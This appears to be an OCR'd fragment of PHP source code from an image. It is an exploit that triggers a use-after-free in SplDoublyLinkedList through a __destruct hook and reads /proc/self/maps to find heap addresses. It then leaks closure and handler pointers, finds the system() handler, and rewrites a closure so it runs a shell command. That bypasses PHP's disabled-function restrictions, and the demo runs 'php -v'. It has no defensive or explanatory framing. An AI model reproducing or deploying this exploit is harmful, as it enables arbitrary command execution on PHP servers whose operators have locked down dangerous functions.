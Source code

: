 ```
}

class Trigger {
    function __destruct() {
        global $s;
        unset($s[0]);
        $a = str_shuffle(str_repeat("T", 0xf));
        i2s($a, 0x00, 0x1234567812345678);
        i2s($a, 0x08, 0x04, 7);
        $s -> current();
        $s -> next();
        if ($s -> current() !== 0x1234567812345678) {
             die("[!]UAF Failed");
        }
        $maps = file_get_contents("/proc/self/maps");
        if (!$maps) {
            cantRead($a);
        }else {
            canRead($maps, $a);
        }
        echo "[+]Done";
    }
}

function bypass($elementAddress, &$a) {
    global $s;
    if (!$closureChunkAddress = getClosureChunk($a, $elementAddress)) {
        die("[!]Get Closure Chunk Address Failed");
    }
    $closure_object = leak($a, $closureChunkAddress + 0x18);
    echo "[+]Closure Object: " . dechex($closure_object) . "\n";
    $closure_handlers = leak($a, $closure_object + 0x18);
    echo "[+]Closure Handler: " . dechex($closure_handlers) . "\n";
    if(!($system_address = getSystem($a, $closure_handlers))) {
        die("[!]Couldn't determine system address");
    }
    echo "[+]Find system's handler: " . dechex($system_address) . "\n";
    i2s($a, 0x08, 0x506, 7);
    for ($i = 0;$i < (0x130 / 0x08);$i++) {
        $data = leak($a, $closure_object + 0x08 * $i);
        i2s($a, 0x00, $closure_object + 0x30);
        i2s($s -> current(), 0x08 * $i + 0x100, $data);
    }
    i2s($a, 0x00, $closure_object + 0x30);
    i2s($s -> current(), 0x20, $system_address);
    i2s($a, 0x00, $closure_object);
    i2s($a, 0x08, 0x108, 7);
    echo "[+]Executing command: \n";
    ($s -> current())("php -v");
}

function canRead($maps, &$a) {
    global $s;
    if (!$chunkAddress = getPHPChunk($maps)) {
        die("[!]Get PHP Chunk Address Failed");
    }
    i2s($a, 0x08, 0x06, 7);
    if (!$elementAddress = getElement($a, $chunkAddress)) {
        die("[!]Get SplDoublyLinkedList Element Address Failed");
    }
    bypass($elementAddress, $a);
}

```